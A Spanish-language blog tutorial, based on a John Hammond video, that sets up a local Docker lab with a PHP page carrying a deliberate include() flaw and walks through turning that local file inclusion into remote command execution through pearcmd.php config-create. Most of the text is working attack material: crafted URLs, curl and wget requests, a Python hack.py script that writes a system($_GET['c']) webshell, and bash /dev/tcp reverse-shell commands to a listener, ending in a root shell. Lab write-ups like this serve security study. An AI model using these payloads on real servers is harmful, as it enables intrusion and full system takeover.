



Vulnerabilidad en PHP hasta 7.3. LFI to RCE
LFI to RCE = Local File Inclusion to Remote Command Execution. Based on John Hammond Youtube video.
2218 Palabras … ⏲ Reading Time: 10 Minutes, 4 Seconds
2024-11-27 15:23 -0300
John Hammond YouTube video 1
1. Objetivo
Vamos a probar como un LFI nos llevará a un RCE vía una vulnerabilidad de PHP.
El problema existe hasta la versión PHP 7.3 y esto fue reportado en el año 2021.
La página está en otro idioma y John H. la ha traducido con Google al Inglés. Este documento lo he armado en base a su vídeo en YouTube.
1.1. Laboratorio local
Para hacer las pruebas nos vamos a crear una imagen Docker que cuente con PHP. A partir de esta imagen crearemos un contenedor Docker que contenga una página con un LFI (Local File Inclusion).
Luego, abusaremos de un .php que existe por defecto y es una especie de consola, y según los parámetros que le demos ejecutará distintos comandos, por ejemplo: nos permite crear archivos. Podremos crear archivos con extensión .php que luego al solicitar con el navegador nos permitirá crear una webshell.
Normalmente usamos técnicas de log poisoning para ir de un LFI a RCE, este no es el caso.

1.2. Blog de origen
El blog de origen, se ve algo así:

Blog 2
Traducción 3
Sección interesante 4

1.2.1 Autor en twitter (X)
 {width=“4.057292213473316in” height=“2.284753937007874in”}
{width=“4.057292213473316in” height=“2.284753937007874in”}
2. Creando nuestro Laboratorio Local
Para poder hacer las pruebas en un laboratorio local necesitamos:
- Crear un contenedor
- Crear algunos archivos para testear
2.1. Archivos y contenedores
Con nuestro Dockerfile crearemos una imagen y a partir de esta crearemos contenedores Docker (con 1 solo nos alcanza).
Archivo: Dockerfile
FROM php:7.0.0
COPY app/* /var/www/html/
WORKDIR /var/www/html/
CMD ["php", "-S", "0.0.0.0:8000"]
En el index.php generamos la vulnerabilidad, usaremos include para poder tener LFI.
Archivo: index.php
<?php
if ( isset($_GET['file']) ){
include($_GET['file']);
}
?>
Archivo: phpinfo.php
<?php
phpinfo();
?>
Creamos el dir app/ y movemos los archivos .php al mismo:
 {width=“5.026042213473316in” height=“4.259200568678915in”}
{width=“5.026042213473316in” height=“4.259200568678915in”}
2.2. Contenedor
2.2.1. Build de la imagen desde nuestro Dockerfile
Usaremos el tag = LFi 2 RCE → phplfi2rce
docker build -t phplfi2rce .
(hay un punto al final del comando indicando el directorio actual)
 {width=“4.584385389326334in” height=“1.0866688538932634in”}
{width=“4.584385389326334in” height=“1.0866688538932634in”}
Hacemos el build
 {width=“4.652179571303587in” height=“3.7217432195975504in”}
{width=“4.652179571303587in” height=“3.7217432195975504in”}
Listamos las imágenes Docker disponibles localmente:
docker images
 {width=“6.267716535433071in” height=“1.125in”}
{width=“6.267716535433071in” height=“1.125in”}
2.2.2. Iniciamos un contenedor usando la imagen que hemos creado
Iniciar el contenedor:
docker run -p 8000:8000 phplfi2rce
2.2.3. Probamos el servicio en el puerto 8000
Visitamos nuestra página vulnerable index.php
 {width=“4.760416666666667in” height=“1.71875in”}
{width=“4.760416666666667in” height=“1.71875in”}
2.2.4. Comprobamos el LFI
Probamos el Local File Inclusion con el archivo /etc/passwd
URL:
http://127.0.0.1:8000/index.php?file=/etc/passwd
O lo que es lo mismo:
http://localhost:8000/?file=/etc/passwd
 {width=“5.526042213473316in” height=“1.578869203849519in”}
{width=“5.526042213473316in” height=“1.578869203849519in”}
En la consola vemos:
 {width=“6.267716535433071in” height=“0.9444444444444444in”}
{width=“6.267716535433071in” height=“0.9444444444444444in”}
2.2.5. Accedemos al phpinfo.php
Visitamos la página del phpinfo.php
http://localhost:8000/phpinfo.php
 {width=“6.267716535433071in” height=“3.3194444444444446in”}
{width=“6.267716535433071in” height=“3.3194444444444446in”}
3. Variables argc y argv
En la página del phpinfo.php, busquemos por las variables que hace referencia el blog (argc y argv)
argc → contar argumentos
argv → valores de los argumentos
 {width=“6.267716535433071in” height=“0.2777777777777778in”}
{width=“6.267716535433071in” height=“0.2777777777777778in”}
La siguiente es un array:
 {width=“6.267716535433071in” height=“0.7777777777777778in”}
{width=“6.267716535433071in” height=“0.7777777777777778in”}
Si en la URL le pasamos después del signo de pregunta ‘?’ un texto como “cualquiercosa” lo veremos reflejado en el array.
 {width=“6.267716535433071in” height=“2.2083333333333335in”}
{width=“6.267716535433071in” height=“2.2083333333333335in”}
Esta es la petición que llega al servidor web (un server PHP en el contenedor):
 {width=“6.267716535433071in” height=“0.4305555555555556in”}
{width=“6.267716535433071in” height=“0.4305555555555556in”}
3.1. Qué ha sucedido
El blog (traducido al inglés) explica lo siguiente:
Si en la URL ponemos un texto, lo vemos reflejado en la página del phpinfo, es decir el texto que escribimos se está cargando en el contenido del array $_SERVER[‘argv’].
4. Acerca del archivo pearcmd.php
4.1. Cuál es la idea
Si hacemos LFI de ese archivo pearcmd.php se invocará, es decir, se va a interpretar, pues tiene extensión PHP; y lo interesante es que a ese archivo le podemos pasar una lista de argumentos (de los que tiene habilitados el archivo), que podremos controlar a través del output que vemos en el array visto en el phpinfo.
El archivo pearcmd.php está en la ruta: /usr/local/lib/php
Se invoca ejecutando:
php pearcmd.php
4.2. Veamos el archivo desde dentro del contenedor
4.2.1. Entramos al contenedor
Primero obtenemos el ID del contenedor
 {width=“6.267716535433071in” height=“1.0833333333333333in”}
{width=“6.267716535433071in” height=“1.0833333333333333in”}
Ahora sí, entramos al contenedor:
docker exec -it <ID> /bin/bash
En mi máquina:
 {width=“5.557292213473316in” height=“1.9201268591426073in”}
{width=“5.557292213473316in” height=“1.9201268591426073in”}
Ya dentro del contenedor, listamos el directorio:
 {width=“5.567708880139983in” height=“0.4817322834645669in”}
{width=“5.567708880139983in” height=“0.4817322834645669in”}
4.2.2. Comandos que puede ejecutar el pearcmd.php
A este php lo podemos invocar usando el comando:
php <ruta al archivo pearcmd.php>
La salida es la lista de comandos/argumentos que puede tomar:
 {width=“6.267716535433071in” height=“2.611111111111111in”}
{width=“6.267716535433071in” height=“2.611111111111111in”}
Observar esta opción en particular:
 {width=“6.267716535433071in” height=“0.2916666666666667in”}
{width=“6.267716535433071in” height=“0.2916666666666667in”}
4.2.3. Código fuente del pearcmd.php
Si nos copiamos el código fuente del pearcmd.php
 {width=“6.267716535433071in” height=“3.6944444444444446in”}
{width=“6.267716535433071in” height=“3.6944444444444446in”}
4.2.4. Análisis del config-create
El autor del blog analiza el código del config-create y dice:
 {width=“6.239583333333333in” height=“1.6979166666666667in”}
{width=“6.239583333333333in” height=“1.6979166666666667in”}
El config-create necesita de 2 argumentos o parámetros:
-
el segundo parámetro es el nombre del archivo con el file path que se va a escribir (llamémosle “pepe”, entonces /file/path/a/pepe)
-
el primer parámetro será el contenido de lo que se escribe dentro del archivo “pepe”. Es decir, a través de pearcmd.php podemos crear un nuevo archivo (por ejemplo con extensión .php) con el contenido que queramos.
5. Ejecución de pearcmd.php
En el blog, el autor usa un HTTP GET para realizar el request (John H. crea con este código un request en Python).
Tenemos que usar el parámetro file que es el con el que tenemos LFI y los dos parámetros que necesita “config-create”:
 {width=“6.267716535433071in” height=“1.875in”}
{width=“6.267716535433071in” height=“1.875in”}
-
El LFI invoca a través de “file” al pearcmd.php
-
Subrayado en rojo el contenido a escribir
-
Subrayado en celeste el archivo de salida.
5.1. Opción 1 - Utilizar el navegador para hacer el request y crear un archivo dentro del contenedor
Crearemos un archivo .php dentro del contenedor.
La URL a visitar es:
http://127.0.0.1:8000/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
 {width=“6.267716535433071in” height=“1.4861111111111112in”}
{width=“6.267716535433071in” height=“1.4861111111111112in”}
El mensaje es de éxito.
Verificamos si se creó el archivo en el /tmp/hello.php dentro del contenedor:
 {width=“5.447916666666667in” height=“1.2395833333333333in”}
{width=“5.447916666666667in” height=“1.2395833333333333in”}
→ ok, tenemos el archivo hello.php dentro del contenedor
Veamos el contenido:
 {width=“5.177083333333333in” height=“1.5729166666666667in”}
{width=“5.177083333333333in” height=“1.5729166666666667in”}
6. Hacer un archivo de prueba .php (sin usar config-create) que nos dé ejecución de comandos
Vamos a hacer una primera prueba que es crear el archivo test.php directamente en el directorio /tmp/ del contenedor:
-
estando en una consola del contenedor
-
sin usar el config-create del pearcmd.php
Entonces:
- Creamos el archivo test.php que ejecuta el comando ls
En el contenedor, ejecutamos:
echo "<?php system('ls -l') ?>" > test.php
 {width=“6.267716535433071in” height=“0.25in”}
{width=“6.267716535433071in” height=“0.25in”}
Visitamos la página:
 {width=“6.267716535433071in” height=“1.0138888888888888in”}
{width=“6.267716535433071in” height=“1.0138888888888888in”}
→ ok, se ejecutó el ’ls’
6.1. Comandos de sistema
- Creamos el archivo test.php que ejecuta cualquier comando de sistema a través de una variable ‘c’
En el contenedor, ejecutamos:
echo "<?php system(\$_GET['c']) ?>"> test.php
 {width=“6.267716535433071in” height=“1.1666666666666667in”}
{width=“6.267716535433071in” height=“1.1666666666666667in”}
Obs: hay que escapar el símbolo de pesos con una contrabarra (backslash).
Ahora hacemos uso del LFI, invocamos al archivo test.php, y a ‘c’ le damos el valor ‘id’:
index.php?file=/tmp/test.php&c=id
 {width=“6.270833333333333in” height=“1.343814523184602in”}
{width=“6.270833333333333in” height=“1.343814523184602in”}
→ ok, obtenemos el resultado de ejecutar el comando ‘id’
6.2. Reverse shell
- Con lo anterior podemos ejecutar una reverse shell (usando la variable ‘c’ que espera el archivo test.php)
En Kali abrimos un listener con nc, y luego la URL a visitar en el navegador es:
http://127.0.0.1:8000/index.php?file=/tmp/test.php&c=bash -c \"bash -i>%26 /dev/tcp/172.17.0.1/443 0>%261"
 {width=“6.267716535433071in” height=“1.0in”}
{width=“6.267716535433071in” height=“1.0in”}
Vemos en la imagen anterior que recibimos una conexión entrante en el listener.
Estamos en el contenedor:
 {width=“6.267716535433071in” height=“2.75in”}
{width=“6.267716535433071in” height=“2.75in”}
7. Repetimos y creamos el archivo ahora haciendo uso del LFI
Crearemos el archivo en el contenedor usando el LFI que invocará a config-create de pearcmd.php.
Es decir, ahora queremos hacer lo mismo que hicimos antes, pero:
-
Utilizando el config-create del pearcmd.php
-
Desde fuera del contenedor
Ahora vamos a escribir un archivo llamado test2.php.
Tenemos que escribir la cadena:
<?php system(\$_GET['c']) ?>
en el archivo test2.php
Al mandarlo vía la URL del navegador se nos complica, porque los signos de mayor y menor los convierte a código url.
Algunos intentos:
http://127.0.0.1:8000/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/\<?=system(\$\_GET\[\'c\'\])?\>+/tmp/test2.php
http://127.0.0.1:8000/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/\<?=system(id);?\>+/tmp/test2.php
En el log del servidor web del contenedor, vemos que los símbolos no llegan de forma correcta:
 {width=“6.267716535433071in” height=“0.375in”}
{width=“6.267716535433071in” height=“0.375in”}
7.1. Usaremos curl para crear el archivo
En vez de usar el navegador para visitar la URL que usa el config-create y crea el archivo, usemos el comando curl.
7.1.1. Primer test, ejecución del comando ‘id’
curl -s -X GET
\'http://127.0.0.1:8000/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/**\<?=system(id);?\>**+/tmp/test2.php\'
 {width=“6.267716535433071in” height=“0.3611111111111111in”}
{width=“6.267716535433071in” height=“0.3611111111111111in”}
 {width=“6.267716535433071in” height=“2.4027777777777777in”}
{width=“6.267716535433071in” height=“2.4027777777777777in”}
 {width=“6.267716535433071in” height=“1.25in”}
{width=“6.267716535433071in” height=“1.25in”}
→ Nos dice que se creó al archivo /tmp/test2.php
En el log, vemos que llega bien (el request, la cadena de texto) al web server del contenedor:
 {width=“6.267716535433071in” height=“0.2777777777777778in”}
{width=“6.267716535433071in” height=“0.2777777777777778in”}
Y si luego solicitamos la URL con el navegador usando file=/tmp/test2.php vemos que se ejecuta de forma correcta y nos da la salida del comando ‘id’ como esperábamos:
 {width=“6.267716535433071in” height=“0.8611111111111112in”}
{width=“6.267716535433071in” height=“0.8611111111111112in”}
7.1.2. Hagamos un nuevo archivo con parámetro ‘c’
Podríamos crear el test2.php con el código necesario de una web shell, usando curl:
curl -s -X GET 'http://127.0.0.1:8000/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/\<?=system(\$\_GET\\\[\"c\"\\\])?\>+/tmp/test2.php'
 {width=“6.267716535433071in” height=“0.2777777777777778in”}
{width=“6.267716535433071in” height=“0.2777777777777778in”}
Observar que se deben escapar los paréntesis rectos, y además intercambiar las comillas, afuera ponemos las simples y en el GET las dobles.
El log del web server en el contenedor:
 {width=“6.267716535433071in” height=“0.2638888888888889in”}
{width=“6.267716535433071in” height=“0.2638888888888889in”}
7.1.2.1. Ejecución de comandos
Mediante el LFI, al igual que antes, llamaremos al archivo .php que ya creamos y le daremos en el parámetro ‘c’ el comando de sistema a ejecutar.
Comando ‘whoami’
 {width=“6.267716535433071in” height=“1.75in”}
{width=“6.267716535433071in” height=“1.75in”}
→ ok, hemos ejecutado el comando ‘whoami’ de forma correcta
Comando ‘id’
 {width=“6.267716535433071in” height=“1.4861111111111112in”}
{width=“6.267716535433071in” height=“1.4861111111111112in”}
7.1.2.2. Reverse shell
Ya tenemos el archivo test2.php que mediante la variable ‘c’ ejecutará un comando de sistema.
Como comando de sistema ahora podemos incluir el código necesario para que nos devuelva una reverse shell.
En vez de usar el navegador, podemos llamar usar wget:
wget \'http://127.0.0.1:8000/index.php?file=/tmp/test2.php**&c=**bash -c "bash -i \>%26 /dev/tcp/172.17.0.1/443 0\>%261\"'
Al ejecutar el wget:
 {width=“6.267716535433071in” height=“0.7777777777777778in”}
{width=“6.267716535433071in” height=“0.7777777777777778in”}
En el listener recibimos la conexión desde nuestro contenedor de pruebas:
 {width=“6.267716535433071in” height=“1.2361111111111112in”}
{width=“6.267716535433071in” height=“1.2361111111111112in”}
Ya dentro del contenedor podemos realizar el análisis que queramos.
 {width=“5.815553368328959in” height=“3.526042213473316in”}
{width=“5.815553368328959in” height=“3.526042213473316in”}
8. Usemos un script python (en vez de curl) para crear el archivo (.php)
La idea es crear un script en Python (hack.py) para hacer el GET request y así crear el archivo de extensión .php (al que luego podremos llamar mediante el LFI).
Tomaremos el código sugerido en el blog y le consultamos a Chat GPT cómo hacer el request en Python:
 {width=“6.267716535433071in” height=“2.9583333333333335in”}
{width=“6.267716535433071in” height=“2.9583333333333335in”}
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/\<?=phpinfo()?\>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
“Please give me Python syntax to send this raw HTTP request.”
 {width=“6.267716535433071in” height=“4.763888888888889in”}
{width=“6.267716535433071in” height=“4.763888888888889in”}
Código python sugerido por ChatGPT:
import requests
url='http://192.168.1.162:8080/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/\<?=phpinfo()?\>+/tmp/hello.php'
headers = {
'Accept-Encoding': 'gzip, deflate',
'Accept': '*/*',
'Accept-Language': 'en',
'User-Agent\': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36','Connection': 'close'
}
response = requests.get(url, headers=headers)
print(response.text)
→ este código será modificado
Nos hacemos el archivo hack.py con el código sugerido por Chat GPT para ejecutar el GET request con python:
 {width=“6.267716535433071in” height=“2.3333333333333335in”}
{width=“6.267716535433071in” height=“2.3333333333333335in”}
PERO: en vez de escribir el phpinfo() en el /tmp/hello.php
 {width=“4.057292213473316in” height=“0.4747889326334208in”}
{width=“4.057292213473316in” height=“0.4747889326334208in”}
→ escribimos otro texto para verificar simplemente:
 {width=“5.088542213473316in” height=“0.47335301837270344in”}
{width=“5.088542213473316in” height=“0.47335301837270344in”}
(el signo de + actúa como espacio)
8.1. Testing usando nuestro hack.py
Dentro del contenedor podemos ver que en el /tmp/ no tenemos más que el archivo pear:
 {width=“3.963542213473316in” height=“0.672230971128609in”}
{width=“3.963542213473316in” height=“0.672230971128609in”}
Si ejecutamos el archivo Python:
python3 hack.py
Vemos que en el log se vé el GET:
 {width=“6.267716535433071in” height=“1.4583333333333333in”}
{width=“6.267716535433071in” height=“1.4583333333333333in”}
Y si revisamos el contenido del directorio /tmp:
 {width=“4.296875546806649in” height=“1.232024278215223in”}
{width=“4.296875546806649in” height=“1.232024278215223in”}
→ Se creó el hello.php que ahora podremos invocar usando nuestro LFI → se ejecutará (se interpreta) pues es un .php
 {width=“6.267716535433071in” height=“0.9722222222222222in”}
{width=“6.267716535433071in” height=“0.9722222222222222in”}
En este caso tiene un error en el echo, igualmente vemos que sí se ejecutó bien.
8.2. Ejecución remota de comandos
Podemos modificar el hack.py para que ejecute un comando de sistema, que se lo pasaremos en la URL mediante una variable ‘c’:
 {width=“6.267716535433071in” height=“2.263888888888889in”}
{width=“6.267716535433071in” height=“2.263888888888889in”}
Lo ejecutamos de nuevo para generar un nuevo hello.php:
python3 hack.py
Volvemos a listar en el contenedor en el /tmp:
 {width=“4.713542213473316in” height=“0.4614654418197725in”}
{width=“4.713542213473316in” height=“0.4614654418197725in”}
Si le hacemos un cat al hello.php:
 {width=“6.267716535433071in” height=“1.3194444444444444in”}
{width=“6.267716535433071in” height=“1.3194444444444444in”}
Y si vamos al navegador, veremos:
 {width=“6.267716535433071in” height=“0.7222222222222222in”}
{width=“6.267716535433071in” height=“0.7222222222222222in”}
Tenemos un Warning pues no le hemos pasado el valor, es decir el comando, a la variable ‘c’:
8.2.1. Ejecutemos el comando id
En la url tenemos que usar el LFI para invocar al archivo hello.php.
http://localhost:8000/?file=/tmp/hello.php&c=id
 {width=“6.267716535433071in” height=“0.6666666666666666in”}
{width=“6.267716535433071in” height=“0.6666666666666666in”}
Ya tenemos ejecución de comandos y si queremos podemos ejecutar una reverse shell.
8.2.2. Ganar acceso
Nuestra IP de Docker:
 {width=“3.401042213473316in” height=“0.9051159230096238in”}
{width=“3.401042213473316in” height=“0.9051159230096238in”}
Vamos a la web de revshells.com
 {width=“5.296875546806649in” height=“3.862671697287839in”}
{width=“5.296875546806649in” height=“3.862671697287839in”}
Vamos a copiar esa cadena con el comando, la ejecutaremos con bash pero se la daremos codificada en base64:
 {width=“6.267716535433071in” height=“1.0416666666666667in”}
{width=“6.267716535433071in” height=“1.0416666666666667in”}
Listener con netcat en el puerto 8888:
 {width=“2.6406255468066493in” height=“0.7109372265966755in”}
{width=“2.6406255468066493in” height=“0.7109372265966755in”}
8.2.2.1. Reverse shell en el hack.py
Nos copiamos el código en base64 para tenerlo guardado, o a la vista:
 {width=“6.267716535433071in” height=“0.5277777777777778in”}
{width=“6.267716535433071in” height=“0.5277777777777778in”}
Creamos una nueva conexión:
 {width=“6.267716535433071in” height=“2.236111111111111in”}
{width=“6.267716535433071in” height=“2.236111111111111in”}
Ejecutamos de nuevo el hack.py
 {width=“2.4114588801399823in” height=“0.48229221347331586in”}
{width=“2.4114588801399823in” height=“0.48229221347331586in”}
pero da un error
 {width=“5.390625546806649in” height=“0.9760433070866141in”}
{width=“5.390625546806649in” height=“0.9760433070866141in”}
→ al parecer no le gustan los espacios
Prueba con un ‘+’ para evitar el espacio en blanco pero tampoco funciona
 {width=“6.267716535433071in” height=“0.6666666666666666in”}
{width=“6.267716535433071in” height=“0.6666666666666666in”}
→ vamos a hacerlo con urlencode; importamos la librería urllib.parse
 {width=“3.026042213473316in” height=“1.2087937445319334in”}
{width=“3.026042213473316in” height=“1.2087937445319334in”}
 {width=“6.267716535433071in” height=“0.6527777777777778in”}
{width=“6.267716535433071in” height=“0.6527777777777778in”}
Ejecutamos de nuevo el hack.py y recibimos la reverse shell:
 {width=“3.369792213473316in” height=“1.618561898512686in”}
{width=“3.369792213473316in” height=“1.618561898512686in”}
Somos root:
 {width=“4.421875546806649in” height=“0.5537828083989501in”}
{width=“4.421875546806649in” height=“0.5537828083989501in”}
 {width=“4.380208880139983in” height=“1.3986515748031496in”}
{width=“4.380208880139983in” height=“1.3986515748031496in”}
-
Youtube: John Hammond Youtube video ↩︎
-
Blog: https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html ↩︎
-
Traducción: https://www-leavesongs-com.translate.goog/PENETRATION/docker-php-include-getshell.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=es-419&_x_tr_pto=wapp ↩︎
-
Sección interesante: https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp ↩︎